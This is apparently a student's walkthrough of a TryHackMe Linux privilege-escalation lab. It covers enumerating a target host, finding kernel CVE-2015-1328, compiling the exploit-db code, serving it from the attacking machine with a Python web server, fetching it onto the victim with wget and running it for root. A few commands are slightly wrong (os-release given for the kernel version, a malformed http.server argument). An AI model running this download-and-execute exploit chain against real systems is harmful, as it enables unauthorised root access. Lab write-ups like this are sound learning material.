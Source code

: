 ## THM LINUX PRIVILEGE ESCALATION BOX

### ***# TASK 3: ENUMERATION***
- First, ssh into the box. 
  - ```ssh karen@<target ip>```
- To find the hostname, use the prompt 
  - ```hostname``` 
- For the Linux kernel version, use: 
  - ```cat /etc/os-release```
- Flavor of Linux being ran (ubuntu, debian, centos, etc): 
  - ```cat /etc/os-release``` 
- The following prompt will return the version of python you're running:
  - ```python --version```
- A quick google search on this particular Linux version's CVE's will return:
  - CVE-2015-1328
  - https://www.exploit-db.com/exploits/37292
![linux 3 13 0-24 cve](https://github.com/ryangreggw/THM-BOXES/assets/25268281/1079c4c1-ca3a-4af0-95cb-d1b2d2b27b0e)

### ***# TASK 5: PRIVILEGE ESCALATION: KERNEL EXPLOITS***
- SSH into the Karen VM.
- In a separate terminal tab: 
  - From the previous task we found out that the system is vulnerable to CVE-2015-1328. Go back to exploit-db, copy the script for the exploit, and create a .c (C-programming language) file with the code. 
- Use ```gcc <file name.c> -o <new file name>```. 
  - This compiles your file and spits out an executable without a file extension. 
- Next we want to start a simple http server that we can download the executable that we just created. 
  - To do this, use: ```sudo python3 -m http.server p <port #>```
- Now that we've established a server for our computer, lets download that exploit onto Karen's machine. 
  - ```wget http://<attack machines ip>:<port #>/<name of your vulnerability>```
- With the exploit now downloaded to Karen's VM, we give the exploit file executable permissions with: 
  - ```chmod +x <file name>```
- Run the file. 
  - ```./<filename>```
- Lastly, we're asked to enumerate the content of the file "flag1.txt."
  - ```find -name flag1.txt```
  
![nano cve](https://github.com/ryangreggw/THM-BOXES/assets/25268281/ae4e0655-e15b-4f4a-bb26-c44e766365b9)
![simple http server](https://github.com/ryangreggw/THM-BOXES/assets/25268281/5b9d2195-4932-4ec3-a203-330c981b85d5)
![wget from simple http server](https://github.com/ryangreggw/THM-BOXES/assets/25268281/45ab75fd-d81a-47d6-9d93-f8d7a9e3b666)
![executable script](https://github.com/ryangreggw/THM-BOXES/assets/25268281/cf734e3a-b832-4521-9bb9-b57821e02be3)  
![find a file](https://github.com/ryangreggw/THM-BOXES/assets/25268281/474085d0-35d7-4177-960d-605225297be8)

